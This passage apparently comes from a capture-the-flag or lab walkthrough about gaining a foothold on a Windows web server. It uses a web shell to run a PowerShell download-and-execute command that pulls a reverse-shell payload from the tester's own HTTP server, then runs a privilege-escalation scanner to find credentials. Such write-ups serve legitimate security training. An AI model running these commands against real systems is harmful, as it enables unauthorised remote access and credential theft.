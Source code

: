We can test our web-shell by sending the command `whoami`: 

<img src="../figs/analysis12.png" alt="whoami in webshell">

Ok, now we need a one-liner reverse shell to feed this form field. First, we will download [this](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1) PowerShell reverse shell code on our local machine and save it under `shell-payload.ps1`. Change everything necessary there, such as your IP address and port. Now we open a Python server where we saved the payload with

```bash
python3 -m http.server 2323
```

Finally, we use this powershell command as promp to our web-shell: `powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<your-ip>:2323/shell-payload.ps1')"`. Before running it, we open a new netcat listener on the port we passed in the payload `shell-payload.ps1`. 

<img src="../figs/analysis13.png" alt="rev-shell">

And we get the reverse shell as the web service account!


## [](#step3-crafting-the-attack)Step 3 - System enumeration

Let's upload PrivescCheck.ps1 (you can find it [here](https://github.com/itm4n/PrivescCheck)) using the upload functionality within the website. Then, we can simply run it inside the shell by typing in `. .\PrivescCheck.ps1; Invoke-PrivescCheck`. We will then find a pair of credentials that can be used to log in as a user `jdoe`:

<img src="../figs/analysis14.png" alt="creds">
